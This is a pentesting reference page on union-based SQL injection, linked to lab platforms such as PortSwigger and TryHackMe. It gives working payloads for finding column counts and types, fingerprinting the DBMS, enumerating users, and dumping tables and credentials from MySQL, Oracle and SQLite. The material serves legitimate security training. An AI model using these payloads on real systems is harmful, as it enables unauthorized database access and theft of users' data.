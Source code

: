 # Union-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![marketplace](../../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sql_injection_numeric](../../../../../_badges/rootme/web_server/sql_injection_numeric.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)
[![sqli_oracle_version](../../../../../_badges/ps/sqli_oracle_version.svg)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
[![sqli_oracle_dump](../../../../../_badges/ps/sqli_oracle_dump.svg)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
[![sqli_mysql_version](../../../../../_badges/ps/sqli_mysql_version.svg)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
[![sqli_union_column_count](../../../../../_badges/ps/sqli_union_column_count.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
[![sqli_union_column_type](../../../../../_badges/ps/sqli_union_column_type.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)
[![sqli_union_column_dump](../../../../../_badges/ps/sqli_union_column_dump.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
[![sqli_union_column_concat](../../../../../_badges/ps/sqli_union_column_concat.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

<div class="row row-cols-lg-2"><div>

Union-based refer to using the UNION clause in the injected SQL to concatenate illegally fetched records to the usual results.

For instance, given a request returning the list of products, we could append to it the list of users and their passwords.

🙌 When injecting an union payloads, you usually only want to see the union results. Simply use a search query with no results.
</div><div>

⚠️ It can only be achieved both queries have the **same number of attributes+type** in the SELECT <small>(as per the property of the UNION clause)</small>.

```sql!
SELECT 1 UNION SELECT 1;          -- ok
SELECT 1, 2 UNION SELECT 1;       -- not ok
SELECT 1, 2 UNION SELECT 1, "2";  -- not ok (on a table)
SELECT 1, 2 UNION SELECT 1, NULL; -- ok
```
</div></div>

<hr class="sep-both">

## Manual Union-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)

<div class="row row-cols-lg-2"><div>

#### Number of columns selected

The first step is to find how many columns there are in the SELECT. There are two popular ways, using `UNION` or `ORDER BY`.

Even if SQL errors are not displayed, if the results is "unexpected" <small>(ex: no results)</small>, we know that the request failed.

<details class="details-n">
<summary>Method 1: <code>UNION SELECT</code></summary>

```sql!
UNION SELECT NULL -- fail
UNION SELECT NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL, NULL -- OK
```
</details>

<details class="details-n">
<summary>Method 2: <code>ORDER BY</code></summary>

`ORDER BY` can take a number representing the $nth$ argument in the select. If you use an invalid $n$, then the request fails.

```sql!
ORDER BY 1 -- fail
ORDER BY 2 -- fail
ORDER BY 3 -- fail
ORDER BY 4 -- OK
```
</details>

In the example, we have 4 parameters.

<br>

#### Find the type of each column

The UNION will fails if a column in the first select has a different type in the second select. You should check the type of each column, by using `UNION SELECT` with value others than NULL.

```sql!
UNION SELECT 1, NULL, NULL, NULL -- KO
UNION SELECT "1", NULL, NULL, NULL -- OK
UNION SELECT "1", "1", NULL, NULL -- OK
...
```

<br>

#### Find which columns are displayed

Simply replace every `NULL` with a value, such as increasing numbers. If a value is not displayed, then skip it and work on other attributes.
</div><div>

#### Find the DBMS used

The second objective is to find the DBMS, and its version, just to ensure that any following query is valid in the DBMS language.

```sql!
UNION SELECT @@version, NULL, NULL, NULL
UNION SELECT sqlite_version(), NULL, NULL, NULL
UNION SELECT VERSION(), NULL, NULL, NULL
UNION SELECT (SELECT banner FROM v$version), NULL, NULL, NULL
-- see also: DMBS-specific functions, etc.
...
```

👉 You can fetch the user too with `user()` or enumerate users:

```sql!
UNION SELECT group_concat(user), NULL, NULL, NULL from mysql.user
```

<br>

#### Extract data

To extract data, you need to find the **database**, the **table**, and the **columns**. It's an extensive operation.

<details class="details-n">
<summary>MariaDB/MySQL/PostgreSQL</summary>

```sql!
-- list databases, mostly unused as we use the current database
UNION SELECT SCHEMA_NAME, NULL, NULL, NULL FROM INFORMATION_SCHEMA.SCHEMATA
-- current database
UNION SELECT database(), NULL, NULL, NULL
-- table given 'database'
UNION SELECT group_concat(table_name), NULL, NULL, NULL FROM information_schema.tables WHERE TABLE_SCHEMA='database_name'
-- columns given 'table' and 'database'
UNION SELECT group_concat(column_name), NULL, NULL, NULL FROM information_schema.columns WHERE TABLE_SCHEMA='database_name' AND TABLE_NAME='table_name'
-- dump
UNION SELECT group_concat(col1,":",col2 SEPARATOR '<br>'), NULL, NULL, NULL FROM database_name.table_name
UNION SELECT concat(col1,":",col2), NULL, NULL, NULL FROM database_name.table_name
UNION SELECT col1||":"||col2, NULL, NULL, NULL FROM database_name.table_name
```
</details>

<details class="details-n">
<summary>Oracle</summary>

You can use:

```sql!
union select table_name FROM all_tables
union select column_name FROM all_tab_columns where table_name='a_table'
```
</details>

<details class="details-n">
<summary>SQLite</summary>

```sql!
-- table
UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
-- columns given table
UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='<a table>'
-- dump
UNION SELECT group_concat(col1 || ":" || col2, '<br>'), NULL, NULL, NULL FROM table_name
```
</details>
</div></div>